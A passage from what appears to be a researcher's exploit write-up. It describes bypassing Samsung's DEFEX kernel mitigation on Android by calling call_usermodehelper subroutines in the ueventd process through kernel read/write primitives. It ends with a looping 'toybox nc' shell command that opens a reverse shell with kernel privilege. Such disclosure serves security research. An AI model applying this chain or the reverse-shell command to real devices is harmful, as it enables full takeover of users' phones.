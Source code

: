 As we saw above part, just calling `call_usermodehelper` doesn't work due to newly updated DEFEX. But, `ueventd` is root privileged process and its parent process is `init` process. And also it is not protected by DEFEX. 

As similar to the way we bypass SELinux restriction, to bypass new DEFEX, all we need to do is calling `call_usermodehelper`'s subroutines separately in `ueventd` process. 

1. Set `call_usermodehelper_setup`'s arguments in kernel memory via arbitrary kernel write primitive.
2. Call `call_usermodehelper_setup` with our arguments via arbitrary kernel function call primitive.
3. Read and Copy `system_unbound_wq` and `sub_info` data. 
4. Call `queue_work` with copied `system_unbound_wq` and `sub_info`. 
5. Due to DEFEX check in `do_execve`, we use shellscript like `/system/bin/sh -c "while [ 1 ] ; do /system/bin/toybox nc ..."` because `/system/bin/sh` has `feature_safeplace_path` attribute.

In this way, we can get reverse shell from remote server with full kernel privilege.



**[DEMO](https://twitter.com/vngkv123/status/1328223035137036290?s=20)**



# Conclusion

Currently Android and iOS both are trying to prevent attacker from exploit their resources. Basically exterminating all bugs is impossible, so their focus is on hardening mitigations by introducing CFI like mechanisms. Although these mitigations surprisingly decrease exploitation success rate, we can always find bypass methods in their development assumption.












